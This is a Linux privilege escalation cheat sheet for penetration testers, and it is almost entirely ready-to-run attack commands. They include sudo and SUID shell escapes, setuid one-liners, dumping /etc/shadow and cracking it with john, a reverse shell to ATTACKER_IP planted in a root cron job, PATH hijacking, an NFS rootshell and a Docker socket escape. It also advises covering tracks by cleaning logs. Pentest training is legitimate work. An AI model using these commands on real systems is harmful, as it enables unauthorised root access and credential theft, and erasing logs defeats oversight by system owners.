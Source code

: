 ##  Linux Privilege Escalation Cheat Sheet

### 🗝️ Introduction

## 1️⃣ System Enumeration

🔍 **Baseline Checks**

```bash
hostname               # Hostname
uname -a               # Kernel & architecture
cat /proc/version      # Kernel build
cat /etc/issue         # OS info
```

🔍 **User & Env**

```bash
id                     # User & groups
env                    # Env variables
history                # Command history
```

🔍 **Network**

```bash
ip a / ifconfig        # Interfaces
ip route / netstat -rn # Routes
ss -tulpan             # Open ports/services
```

🔍 **Permissions & Special Bits**

```bash
find / -perm -4000 -type f -ls 2>/dev/null  # SUID
getcap -r / 2>/dev/null                     # Capabilities
```

🔍 **Scheduled Jobs**

```bash
cat /etc/crontab
ls -la /etc/cron.*/*
crontab -l
```

🔍 **Writable Places**

```bash
find / -writable -type d 2>/dev/null
```

---

## 2️⃣ Automated Enumeration

Use to speed up, **never trust blindly** — validate by hand:
```bash
wget https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/linPEAS/linpeas.sh
chmod +x linpeas.sh && ./linpeas.sh
```

---

## 3️⃣ Kernel Exploits

1. `uname -r` — get version
    
2. Search **CVE**, **searchsploit**, **Exploit-DB**
    
    ```bash
    searchsploit Linux Kernel <version>
    ```
    
3. Transfer exploit: `wget`, `scp`, `python3 -m http.server`
    
4. Compile & run:
    
    ```bash
    gcc exploit.c -o exploit && ./exploit
    ```
    
5. `whoami` → verify root
    

⚠️ **Danger:** Kernel exploits can crash a box — use only when safe.

---

## 4️⃣ Sudo Abuse

🔍 **List allowed commands:**

```bash
sudo -l
```

🔑 **GTFOBins Tricks**

- `find`:
    
    ```bash
    sudo find . -exec /bin/sh \\; -quit
    ```
    
- `vim`:
    
    ```bash
    sudo vim -c ':!sh'
    ```
    
- `less`, `nano`: similar `:!bash` or `^R^X` tricks.
    

✅ Always check [GTFOBins](https://gtfobins.github.io/).

---

## 5️⃣ SUID Binary Abuse

```bash
find / -perm -4000 -type f 2>/dev/null
```

Check unusual SUID binaries (`nmap`, `vim`, `find`):

```bash
nmap --interactive
!sh
```

Or dump shadow:

```bash
/usr/bin/base64 /etc/shadow > /tmp/shadow.b64
base64 -d /tmp/shadow.b64 > /tmp/shadow.txt

unshadow /etc/passwd /tmp/shadow.txt > hashes.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

---

## 6️⃣ File Capabilities

Show files with capabilities:

```bash
getcap -r / 2>/dev/null
```

If `cap_setuid`:

```bash
python3 -c 'import os; os.setuid(0); os.system(\"/bin/sh\")'
```

Or use `perl` GTFOBin:

```bash
perl -e 'use POSIX (setuid); POSIX::setuid(0); exec \"/bin/sh\";'
```

---

## 7️⃣ Cron Job Abuse

Find writable cron scripts:

```bash
grep -R \"root\" /etc/cron* 2>/dev/null
```

If writable:

```bash
echo \"bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1\" >> /root/cronjob.sh
nc -lvnp 4444
```

---

## 8️⃣ PATH Hijacking

If a root process calls a binary using relative PATH:

```bash
export PATH=/tmp:$PATH
echo -e '#!/bin/bash\\n/bin/bash' > /tmp/ls
chmod +x /tmp/ls
```

When root runs `ls` → you get root shell.

---

## 9️⃣ NFS `no_root_squash`

Check `/etc/exports`:

```bash
cat /etc/exports
```

If `no_root_squash` → mount:

```bash
mount -o rw ATTACKER_IP:/share /mnt
echo -e '#!/bin/bash\\n/bin/bash' > /mnt/rootshell
chmod +x /mnt/rootshell
chown root:root /mnt/rootshell
chmod 4755 /mnt/rootshell
```

Run on target:

```bash
./rootshell
```

---

## 🔟 Other Useful Vectors

✅ **Sticky Bit Misconfigs:**  
Check `/tmp`:

```bash
ls -ld /tmp
# Should be drwxrwxrwt
```

If `t` is missing, any user can delete others’ files.

✅ **Weak SSH Keys:**

```bash
find / -name id_rsa 2>/dev/null
```

Try recovered private keys with:

```bash
ssh -i id_rsa user@host
```

✅ **Docker Socket:**

```bash
ls -l /var/run/docker.sock
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

✅ **Kubernetes:**  
Check `/var/run/secrets/kubernetes.io/`.

✅ **Misconfigured Kernel Modules:**  
Look for `insmod` or custom modules with write access.

---

## ✔️ Key Takeaways

1️⃣ **Enum like crazy** — every privesc starts there.  
2️⃣ **Cross-check auto tools** by hand.  
3️⃣ **Use least-destructive first** (sudo, SUID, cron > kernel exploit).  
4️⃣ **Cover your tracks** — clean dropped files/logs.  
5️⃣ **Document everything** for your report.  
6️⃣ **Train constantly** — practice on THM, VulnHub, HackTheBox.

---
